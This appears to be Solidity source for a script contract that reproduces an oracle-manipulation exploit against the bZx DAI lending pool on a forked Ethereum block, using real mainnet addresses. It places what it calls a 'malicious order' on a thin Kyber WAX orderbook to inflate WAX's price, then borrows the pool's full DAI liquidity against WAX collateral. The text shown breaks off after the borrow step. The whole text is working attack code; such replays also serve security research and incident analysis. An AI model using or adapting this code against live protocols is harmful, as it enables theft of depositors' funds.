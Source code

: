 ```
contract BZxWAXExploit is Script, Constants, TokenHelper, BZxHelpers {
    BZxLoanTokenV2Like private constant BZX_DAI = BZxLoanTokenV2Like(0x14094949152EDDBFcd073717200DA82fEd8dC960);
    
    ERC20Like private constant WAX = ERC20Like(0x39Bb259F66E1C59d5ABEF88375979b4D20D98022);
    OrderbookReserveLike private constant WAX_ORDER_BOOK = OrderbookReserveLike(0x75fF6BeC6Ed398FA80EA1596cef422D64681F057);
    
    uint constant private INITIAL_BALANCE = 150 ether;
    
    function setup() public {
        name("bzx-wax-exploit");
        blockNumber(8455720);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.makeOrder)
            .then(this.checkRates)
            .then(this.borrow)
            .then(this.cleanup)
            .finally(this.checkProfits);
    }
    
    uint constant rateCheckAmount = 1e8;
    
    function checkRates() external {
        (uint rate, uint slippage) = KYBER_NETWORK.getExpectedRate(WAX, KYBER_ETH, rateCheckAmount);
        printf("checking rates tokens=%.8u rate=%.18u slippage=%.18u\n", abi.encode(rateCheckAmount, rate, slippage));
    }
    
    uint constant waxBidAmount = 1e8;
    uint constant ethOfferAmount = 10 ether;
    uint32 private orderId;
    function makeOrder() external {
        orderId = WAX_ORDER_BOOK.ethToTokenList().nextFreeId();
        
        uint kncRequired = WAX_ORDER_BOOK.calcKncStake(ethOfferAmount);
        printf("making malicious order kncRequired=%.u\n", abi.encode(KNC.decimals(), kncRequired));
        
        KNC.getFromUniswap(kncRequired);
        WAX.getFromBancor(1 ether);
        
        WAX.approve(address(WAX_ORDER_BOOK), waxBidAmount);
        KNC.approve(address(WAX_ORDER_BOOK), kncRequired);
        
        WAX_ORDER_BOOK.depositEther.value(ethOfferAmount)(address(this));
        WAX_ORDER_BOOK.depositToken(address(this), waxBidAmount);
        WAX_ORDER_BOOK.depositKncForFee(address(this), kncRequired);
        require(WAX_ORDER_BOOK.submitEthToTokenOrder(uint128(ethOfferAmount), uint128(waxBidAmount)));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_DAI, false, BZX_DAI.marketLiquidity(), DAI, WAX);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
```